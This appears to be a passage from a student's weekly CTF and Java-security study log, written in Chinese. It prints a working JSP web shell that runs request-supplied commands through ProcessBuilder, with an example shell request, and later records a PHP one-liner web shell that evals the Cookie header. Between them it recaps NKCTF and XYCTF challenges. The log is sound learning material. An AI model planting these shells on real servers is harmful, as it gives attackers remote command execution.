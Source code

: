 ```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
ByteArrayOutputStream baos = new ByteArrayOutputStream();
byte[] b = new byte[1024];
int a = -1;

while ((a = in.read(b)) != -1) {
    baos.write(b, 0, a);
}

out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```
执行/bin/sh -c "cd /Users/;ls -la;"的浏览器请求:[http://localhost:8080/process_builder.jsp?cmd=/bin/sh&cmd=-c&cmd=cd%20/Users/;ls%20-la](http://localhost:8080/process_builder.jsp?cmd=/bin/sh&cmd=-c&cmd=cd%20/Users/;ls%20-la)
<a name="jaxu4"></a>
## 复现NKCTF
这回的题出的都挺新，但是好多题都要猜密码，难蚌<br />attack--tacoooo用了披露的pgadmin<8.3的漏洞，直接可以搜到payload，直接用拿shell，但是这题又一个难蚌的地方，就是flag藏任务计划，要crontab -e才能看，没见过这种出题方式，CMS这道题我搜到了这个CVE但是需要admin密码，难蚌的是密码是Admin123,我的密码本里只有admin123,而且他平台又说禁止扫描器，弄得我以为我的思路错了。<br />然后是一个thinkphp的代码审计，看到Thinkphp第一反应就是反序列化，里面确实有反序列化后门。<br />剩下一个js的沙盒逃逸，大概能看懂，但是原理下周看VM沙盒逃逸的时候一起看
<a name="VWBcH"></a>
## XYCTF
 1.第一次见到过滤；的一句话木马，记录下来
```shell
echo "<?php eval(getallheaders()['Cookie'])?>" > 2.php
```

<a name="xQxM3"></a>
# 本周自己学习过程中遇到的问题和疑问点
这周处理了很多学校的事情，和老师的项目之类的，也过了个好清明
<a name="cHkXO"></a>
# 情感、思考、观点
电脑送修中，但是影响不大，最近都是看书和Javasec学，也参加了学校联合的XYCTF，题目挺抽象的
<a name="NNt53"></a>
# 在团队的感触和建议
在团队感受良好，逐渐融入集体了

<a name="NDXGt"></a>
##### 
